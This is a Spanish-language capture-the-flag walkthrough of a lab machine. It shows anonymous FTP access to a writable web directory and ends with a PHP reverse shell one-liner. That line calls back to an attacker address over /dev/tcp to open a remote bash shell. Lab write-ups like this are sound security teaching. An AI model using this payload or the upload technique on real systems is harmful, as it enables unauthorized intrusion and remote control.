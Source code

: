 En este punto, podemos ver que tenemos acceso vía FTP sin credenciales y el puerto 80. Veamos qué nos muestra el contenido web:

![](/assets/images/forbidden/index.png){: .align-center}

De alguna forma parece que nos está indicando varias pistas. Si miramos el recurso robots.txt, figura "note.txt", que contiene:

"The extra-secured .jpg file contains my password but nobody can obtain it."


### FTP

Veamos el acceso FTP ahora:

~~~bash
❯ ftp $ip
Connected to 192.168.1.32.
220 (vsFTPd 3.0.3)
Name (192.168.1.32:kaian): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||55650|)
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Jul 30 12:23 www
226 Directory send OK.
ftp> cd www
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||51494|)
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0             241 Oct 09  2020 index.html
-rwxrwxrwx    1 0        0              75 Oct 09  2020 note.txt
-rwxrwxrwx    1 0        0              10 Oct 09  2020 robots.txt
226 Directory send OK.
~~~

Aparentemente tenemos acceso al directorio donde está la web, por lo que podríamos tratar de subir una reverse shell, aunque aparentemente estará protegida para que no interprete php.


### Reverse shell

Creo una reverse shell en diferentes formatos como php* con la forma típica: `<?php system("bash -c 'bash -i >& /dev/tcp/192.168.1.150/1234 0>&1'"); ?>`
